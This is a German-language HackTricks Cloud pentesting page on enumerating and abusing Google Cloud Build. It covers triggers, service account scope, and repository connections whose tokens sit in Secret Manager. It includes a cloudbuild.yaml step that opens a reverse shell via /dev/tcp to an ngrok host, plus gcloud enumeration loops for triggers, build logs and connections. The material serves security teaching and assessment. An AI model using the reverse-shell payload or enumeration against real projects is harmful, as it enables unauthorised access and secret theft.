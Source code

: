 # GCP - Cloud Build Enum

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Grundlegende Informationen

Google Cloud Build ist eine verwaltete CI/CD-Plattform, die den **automatisierten Software-Build** und Freigabeprozesse ermöglicht, indem sie mit **Quellcode-Repositories integriert** und eine Vielzahl von Programmiersprachen unterstützt. Es ermöglicht Entwicklern, Code automatisch zu **erstellen, zu testen und bereitzustellen**, während es Flexibilität bietet, Build-Schritte und Workflows anzupassen.

Jeder Cloud Build Trigger ist **mit einem Cloud-Repository verbunden oder direkt mit einem externen Repository verbunden** (Github, Bitbucket und Gitlab).

{% hint style="success" %}
Ich konnte keine Möglichkeit sehen, den Github/Bitbucket-Token von hier oder von Cloud-Repositories zu stehlen, da beim Herunterladen des Repositories über eine [https://source.cloud.google.com/](https://source.cloud.google.com/) URL zugegriffen wird und Github nicht vom Client aus aufgerufen wird.
{% hint %}

### Ereignisse

Der Cloud Build kann ausgelöst werden, wenn:

* **Ein Push auf einen Branch erfolgt**: Branch angeben
* **Ein neues Tag gepusht wird**: Tag angeben
* **Pull-Request**: Branch angeben, der den PR erhält
* **Manuelle Auslösung**
* **Pub/Sub-Nachricht**: Thema angeben
* **Webhook-Ereignis**: Es wird eine HTTPS-URL freigegeben und die Anfrage muss mit einem Geheimnis authentifiziert werden

### Ausführung

Es gibt 3 Optionen:

* Ein yaml/json, das die auszuführenden Befehle **spezifiziert**. Normalerweise: `/cloudbuild.yaml`
* Nur einer, der "inline" im Web-Portal und in der Befehlszeile spezifiziert werden kann
* Gängigste Option
* Relevant für nicht authentifizierten Zugriff
* Ein **Dockerfile** zum Erstellen
* Ein **Buildpack** zum Erstellen

### SA-Berechtigungen

Der **Service Account hat den `cloud-platform`-Bereich**, sodass er **alle Berechtigungen verwenden kann**. Wenn **kein SA angegeben ist** (wie beim Ausführen von submit), wird der **Standard-SA** `<proj-number>@cloudbuild.gserviceaccount.com` **verwendet**.

Standardmäßig werden keine Berechtigungen erteilt, aber es ist recht einfach, einige zu erteilen:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Genehmigungen

Es ist möglich, einen Cloud Build so zu konfigurieren, dass **Genehmigungen für Build-Ausführungen erforderlich sind** (standardmäßig deaktiviert).

### Verbindungen & Repositories

Verbindungen können über erstellt werden:

* **GitHub:** Es wird eine OAuth-Aufforderung angezeigt, die um Berechtigungen bittet, um **einen Github-Token zu erhalten**, der im **Secret Manager** gespeichert wird.
* **GitHub Enterprise:** Es wird gefragt, ob ein **GithubApp** installiert werden soll. Ein **Authentifizierungstoken** von Ihrem GitHub Enterprise-Host wird erstellt und in diesem Projekt als **Secret Manager**-Geheimnis gespeichert.
* **GitLab / Enterprise:** Sie müssen den API-Zugriffstoken und den Lese-API-Zugriffstoken bereitstellen, die im **Secret Manager** gespeichert werden.

Sobald eine Verbindung hergestellt wurde, können Sie sie verwenden, um **Repositories zu verknüpfen, auf die das Github-Konto Zugriff hat**.

Diese Option ist über die Schaltfläche verfügbar:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Beachten Sie, dass mit dieser Methode verbundene Repositories **nur in Triggern der 2. Generation verfügbar sind**.
{% hint %}

### Repository verbinden

Dies ist nicht dasselbe wie eine **`Verbindung`**. Dies ermöglicht **unterschiedliche** Möglichkeiten, auf ein Github- oder Bitbucket-Repository zuzugreifen, **erstellt jedoch kein Verbindungsobjekt, sondern ein Repository-Objekt (der 1. Generation).**

Diese Option ist über die Schaltfläche verfügbar:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Speicher

Manchmal wird Cloud Build **einen neuen Speicherplatz generieren, um die Dateien für den Trigger zu speichern**. Dies geschieht beispielsweise im Beispiel, das GCP anbietet mit:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Ein Speicherbucket namens [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) wird erstellt, um eine `.tgz`-Datei mit den zu verwendenden Dateien zu speichern.

### Shell erhalten
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeration

Sie könnten **sensible Informationen in Build-Konfigurationen und Protokollen** finden.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Privilege Escalation

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Unauthenticated Access

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
